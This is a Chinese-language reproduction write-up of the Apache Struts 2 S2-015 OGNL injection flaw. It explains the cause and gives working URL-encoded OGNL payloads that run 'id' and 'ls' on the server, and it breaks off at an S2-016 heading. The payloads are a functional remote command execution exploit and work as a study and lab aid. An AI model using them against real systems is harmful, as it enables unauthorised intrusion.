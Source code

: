 上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

这里为了到达执行命令的目的可以用 调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决

### poc

~~~~
执行命令：
%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d%2e%61%63%74%69%6f%6e
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401143321.png)

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401143542.png)

**执行ls，查看文件**

~~~~
${#context[‘xwork.MethodAccessor.denyMethodExecution’]=false,#m=#_memberAccess.getClass().getDeclaredField(‘allowStaticMethodAccess’),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(‘ls’).getInputStream()),#q}.action
~~~~

![](https://raw.githubusercontent.com/16778738/picture/master/img/2022/04/01/20220401143728.png)

执行失败，需要转url编码（可以使用火狐自带hackbar）

~~~
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%2C%23q%7D.action
~~~

![image-20220401144643050](E:\学习\picture\image-20220401144643050.png)

****

## S2-016 复现

影响版本: 2.0.0 - 2.3.15

### 原理
